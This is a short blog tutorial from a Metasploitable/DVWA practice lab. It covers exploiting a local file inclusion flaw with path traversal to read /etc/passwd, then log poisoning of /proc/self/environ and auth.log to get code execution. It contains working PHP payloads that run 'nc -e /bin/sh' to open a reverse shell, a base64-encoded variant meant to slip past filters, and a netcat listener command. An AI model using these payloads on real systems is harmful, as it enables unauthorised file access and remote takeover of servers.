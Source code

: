 +++
categories = ["File Vulnerability", "Metasploitable"]
date = "2021-02-06"
title = "Vulnerability Local File Inclusion"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

## Get the file 

If you see a web in which the URL it's something like `/?page=something.php`, we can try to exploit it.

1. First we remove the `?page=` and reload to get the path to the file in the new url.
2. Copy the path in the old url like this `/?page=/var/www/dvwa/vulerabilities/fi/something.php`.
3. If this new url loads correctly, we can exploit it by replacing every directory for `..`.
4. So we end with something like this `/?page=/../../../../../etc/passwd`.

This way we can access some local file that is in the server, but it wasn't suposed to be accessible.


## Reverse Shell - environ

Setting the burp proxy on we reload `/?page=/../../../../../proc/self/environ` we can do two things.

* Replace User-Agent field for `<?phpinfo();?>` to get the interpreter info.
* Replace for `<?passthru('nc -e /bin/sh 10.0.2.5 8888 ');?>`. In a terminal listen to that por with this command `nc -vv -l -p 8888`. Reload, and get a reverse shell on your terminal.


## Reverse Shell - auth.log

1. First we try to see if we can  get the auth.log with the url `/?page=/../../../../../var/log/auth.log`.
2. We are going to try a connection by ssh with the server and see if it gets register on the auth.log. We use any user name `ssh random@10.0.2.4`.
3. If it is the case, now we do another ssh connection but this time the username is going to be a script.
``` 
>ssh "<?passthru('nc -e /bin/sh 10.0.2.5 9999 ');?>"@10.0.2.4
```
4. To avoid the filters we are goint to encode the script using the burp proxy. We can use base64 and the script would result in something like 

``` 
>ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxMC4wLjIuNSA5OTk5'));?>"@10.0.2.4
```
5. Now in other terminal we just have to listen to the port as in the previous example `nc -vv -l -p 9999`